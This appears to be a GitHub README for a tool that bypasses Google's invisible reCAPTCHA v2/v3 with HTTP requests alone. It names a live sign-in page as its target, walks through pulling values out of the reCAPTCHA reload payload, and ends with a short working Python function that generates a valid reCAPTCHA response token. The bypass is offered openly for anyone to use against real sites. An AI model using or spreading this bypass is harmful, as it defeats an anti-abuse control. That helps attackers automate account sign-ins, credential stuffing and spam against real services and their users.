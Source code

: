 # Bypass Invisible Recaptcha v2 / v3

Allows to bypass an invisible recaptcha just with **HTTP requests**, without **Selenium** or **OCR**.
## Important

1 - This bypass does not work on all invisible recaptchas, **you have to try it** to know if it works on your recaptcha;

2 - This bypass only works on **invisible recaptchas**.

3 - You must have **some knowledge** of HTTP requests to understand

## EXPLOIT

**TARGET** : https://bitly.com/a/sign_in
### STEP 1
Inspect network to find the **recaptcha anchor url**.

![](https://i.ibb.co/fFprvrH/anchor.png)

### STEP 2
Inspect network to find the **recaptcha reload url**.

![](https://i.ibb.co/1J3gxYY/reload.png)

### STEP 3
Let's now look at the **payload** of the reload request

1 - Find **CHR** [xx, xx, xx]

![](https://i.ibb.co/sjmFYCc/chr.png)

2 - Find **VH** (The **number sequence** after the character *)

![](https://i.ibb.co/HrchVCB/vh.png)

3 - Find **BG** (Not me :D, the other BG inside the payload **from the character** ! **to the character** *)

Starts here

![](https://i.ibb.co/nDTFfsY/bg1.png)

Ends here

![](https://i.ibb.co/BwMRhPt/bg2.png)

### STEP 4
Run **bypass.py** with python3 and fill inputs.

![](https://i.ibb.co/MB3nDMN/inputs.png)

Recaptcha is **vulnerable** :D we can generate the **recaptcha response** with HTTP requests !

![](https://i.ibb.co/3WCj0XC/bypass.png)

### STEP 5
Go in the **bypassed.txt** file, take the **variables** and you can now create your script to generate the **recaptcha response**.



## Generate Recaptcha Response

```python
import requests

def generateresponse(anchorurl, reloadurl, payload):
    s = requests.Session()
    r1 = s.get(anchorurl).text
    token1 = r1.split('recaptcha-token" value="')[1].split('">')[0]
    payload = payload.replace("<token>", str(token1))
    r2 = s.post(reloadurl, data=payload)
    try:
        token2 = str(r2.text.split('"rresp","')[1].split('"')[0])
        return token2
    except:
        return ""
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## Credits
blank <3
